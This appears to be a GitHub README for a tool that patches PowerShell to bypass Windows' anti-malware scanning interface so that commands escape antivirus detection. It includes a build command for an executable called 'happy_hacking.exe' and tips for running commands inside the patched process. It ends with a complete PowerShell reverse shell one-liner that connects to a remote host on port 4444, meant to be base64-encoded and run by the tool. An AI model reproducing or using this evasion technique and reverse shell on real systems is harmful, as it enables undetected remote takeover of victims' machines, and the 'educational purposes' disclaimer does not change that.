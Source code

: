 # AMSI Bypass & Command Executor

This project demonstrates how to bypass the anti-malware scanning interface (AMSI) in Windows PowerShell to execute PowerShell commands without being detected by antivirus software.

## How It Works

AMSI is a Windows security feature that checks for malicious code in PowerShell scripts before they are executed. By default, PowerShell enables AMSI, which makes it difficult for malicious code to run undetected. However, it is possible to bypass AMSI with certain techniques.

In this project, we use a technique that involves patching an existing PowerShell process to disable AMSI scanning. This approach ensures that the PowerShell script runs without triggering any antivirus software alarms.

## Compilation Command

To compile the code in this project, use the following command:

```powershell
g++ -m64 -o happy_hacking.exe -static -mwindows main.cpp
```

## Important Notes

 - It is important to verify that any command you run uses only PowerShell to perform its designated tasks.
 - It is recommended to avoid using `powershell.exe <command>` and opt for `Invoke-Expression` instead. By doing so, the command will be executed in the patched PowerShell instance created by the executable.
 - Please note that this project is intended solely for educational purposes and should not be used for malicious activities.

## Example Script

Here is an example of a single line PowerShell script that can be encoded in base64 format and that you can use in the code. This script connects to a remote server at IP address `10.10.10.10` on port `4444` and starts a command shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();
```
